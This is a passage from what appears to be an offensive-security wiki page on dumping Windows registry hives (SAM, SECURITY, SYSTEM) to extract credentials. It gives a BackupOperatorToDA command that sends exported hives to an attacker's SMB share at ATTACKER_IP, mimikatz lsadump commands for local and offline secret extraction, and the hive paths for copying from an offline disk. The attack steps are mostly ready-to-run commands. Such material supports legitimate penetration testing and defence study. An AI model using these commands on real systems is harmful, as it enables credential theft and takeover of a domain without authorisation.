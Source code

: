 {% hint style="success" %}
Exported hives can be exfiltrated and dumped localy using secretsdump or mimikatz.
{% endhint %}

### BackupOperatorToDA

This operation can be conducted remotely with [BackupOperatoToDA](https://github.com/mpgn/BackupOperatorToDA) (C++).

```bash
BackupOperatorToDA.exe -d "domain" -u "user" -p "password" -t "target" -o "\\ATTACKER_IP\someshare"
```

{% hint style="success" %}
The attacker can start an SMB server, and indicate an UNC path including his IP address so that the hives get exported directly to his server.
{% endhint %}

{% hint style="info" %}
Alternatively, from a live Windows machine, the hive files can also be exfiltrated using [Volume Shadow Copy](ntds.md) like demonstrated for an NTDS export.
{% endhint %}

### Mimikatz

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used locally to extract credentials from `SAM` and `SECURITY` registry hives (and `SYSTEM` for the encryption keys), or offline with hive dumps.

```bash
# Local dumping of SAM secrets on the target
lsadump::sam

# Offline dumping of SAM secrets from exported hives
lsadump::sam /sam:'C:\path\to\sam.save' /system:'C:\path\to\system.save'

# Local dumping of LSA secrets on the target
lsadump::secrets

# Offline dumping LSA secrets from exported hives
lsadump::secrets /security:'C:\path\to\security.save' /system:'C:\path\to\system.save'
```
{% endtab %}

{% tab title="Down Windows" %}
When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```bash
\system32\config\sam
\system32\config\security
\system32\config\system
```
{% endtab %}
{% endtabs %}
